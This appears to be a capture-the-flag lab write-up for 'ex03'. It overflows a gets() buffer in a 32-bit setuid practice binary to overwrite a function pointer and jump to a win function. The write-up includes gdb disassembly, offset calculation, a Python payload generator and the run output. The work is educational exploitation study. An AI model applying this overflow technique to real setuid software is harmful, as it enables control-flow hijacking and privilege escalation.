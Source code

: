 ## ex03

### Objective
The goal of this challenge is to change the code flow of the binary and see the message "code flow successfully changed".

### Steps Taken

1. **Initial Analysis**:
    - First, we used `file` to determine the type of the binary and `strings` to identify useful strings within the binary.

    ```sh
    file bin
    strings bin
    ```

    **Output of `file bin`**:
    ```
    bin: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.18, BuildID[sha1]=cbb07c698e33bffa1d80aa320ad36cc3a5c1b2b3, not stripped
    ```

    **Output of `strings bin`**:
    ```
    /lib/ld-linux.so.2
    __gmon_start__
    libc.so.6
    _IO_stdin_used
    gets
    puts
    printf
    __libc_start_main
    GLIBC_2.0
    PTRh
    QVh8
    [^_]
    code flow successfully changed
    calling function pointer, jumping to 0x%08x
    ```

2. **Disassembly**:
    - We used `gdb` to disassemble the binary and identify the `gets` function call, which is used to read input into a buffer, and a function pointer that is later called.

    ```sh
    gdb bin
    (gdb) break main
    (gdb) run
    (gdb) disassemble main
    ```

    **Disassembly of `main`**:
    ```assembly
    Dump of assembler code for function main:
       0x08048438 <+0>:     push   %ebp
       0x08048439 <+1>:     mov    %esp,%ebp
       0x0804843b <+3>:     and    $0xfffffff0,%esp
       0x0804843e <+6>:     sub    $0x60,%esp
       0x08048441 <+9>:     movl   $0x0,0x5c(%esp)
       0x08048449 <+17>:    lea    0x1c(%esp),%eax
       0x0804844d <+21>:    mov    %eax,(%esp)
       0x08048450 <+24>:    call   0x8048330 <gets@plt>
       0x08048455 <+29>:    cmpl   $0x0,0x5c(%esp)
       0x0804845a <+34>:    je     0x8048477 <main+63>
       0x0804845c <+36>:    mov    $0x8048560,%eax
       0x08048461 <+41>:    mov    0x5c(%esp),%edx
       0x08048465 <+45>:    mov    %edx,0x4(%esp)
       0x08048469 <+49>:    mov    %eax,(%esp)
       0x0804846c <+52>:    call   0x8048350 <printf@plt>
       0x08048471 <+57>:    mov    0x5c(%esp),%eax
       0x08048475 <+61>:    call   *%eax
       0x08048477 <+63>:    leave  
       0x08048478 <+64>:    ret    
    End of assembler dump.
    ```

    - We identified the following key points in the disassembly:
      - The `gets` function is used to read input into a buffer located at `0x1c(%esp)`.
      - A function pointer is located at `0x5c(%esp)`.
      - The function pointer is called at offset `+61`.

3. **Identify the Target Address**:
    - We identified a `win` function in the binary that prints the success message "code flow successfully changed".

    ```sh
    (gdb) info functions
    ```

    - We disassembled the `win` function to find its address.

    ```sh
    (gdb) disassemble win
    ```

    **Disassembly of `win`**:
    ```assembly
    Dump of assembler code for function win:
       0x08048424 <+0>:     push   %ebp
       0x08048425 <+1>:     mov    %esp,%ebp
       0x08048427 <+3>:     sub    $0x18,%esp
       0x0804842a <+6>:     movl   $0x8048540,(%esp)
       0x08048431 <+13>:    call   0x8048360 <puts@plt>
       0x08048436 <+18>:    leave  
       0x08048437 <+19>:    ret    
    End of assembler dump.
    ```

    - The address of the `win` function is `0x08048424`.

4. **Determine Buffer Size and Offset**:
    - The buffer starts at `0x1c(%esp)` and the function pointer is at `0x5c(%esp)`.
    - The offset is `0x5c - 0x1c = 0x40` (64 bytes).

5. **Craft the Payload**:
    - We created a Python script to generate the payload that overflows the buffer and modifies the function pointer to point to the `win` function.

    ```python
    import struct
    import base64

    buffer_size = 64  # 0x40 in hex
    target_address = 0x08048424  # Address of the win function

    payload = b'A' * buffer_size
    payload += struct.pack("<I", target_address)

    # Encode the payload in base64
    encoded_payload = base64.b64encode(payload).decode('ascii')
    print(encoded_payload)
    ```

6. **Execute the Binary with the Payload**:
    - We used the following commands to set the payload as an environment variable and run the binary.

    ```sh
    # Generate the payload and print it
    python -c 'import struct, base64; buffer_size = 64; target_address = 0x08048424; payload = b"A" * buffer_size + struct.pack("<I", target_address); encoded_payload = base64.b64encode(payload).decode("ascii"); print(encoded_payload)'

    # Set the environment variable using the copied output
    export PAYLOAD=$(echo QUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQSSEBAg= | base64 --decode)

    # Run the binary
    echo -e $PAYLOAD | ./bin
    ```

### Difficulties Encountered

- **Finding the Success Message Address**:
    - Initially, we had trouble identifying the exact address where the success message "code flow successfully changed" is printed.
    - We used GDB to search for the message and disassemble the `win` function to find its address.

- **Handling Non-ASCII Characters in the Payload**:
    - When crafting the payload, we encountered issues with non-ASCII characters.
    - We resolved this by encoding the payload in base64 and then decoding it in the environment variable.

### Output
- The output showed the success message, indicating that we successfully exploited the binary:
    ```
    calling function pointer, jumping to 0x08048424
    code flow successfully changed
    ```

### Tools Used
- `file`
- `strings`
- `gdb`
- Python

### Educational Purpose
These methods and tools are used strictly for educational purposes to understand and protect against similar vulnerabilities. 

### Script
Include the Python script used to generate the payload:

```python
import struct
import base64

buffer_size = 64  # 0x40 in hex
target_address = 0x08048424  # Address of the win function

payload = b'A' * buffer_size
payload += struct.pack("<I", target_address)

# Encode the payload in base64
encoded_payload = base64.b64encode(payload).decode('ascii')
print(encoded_payload)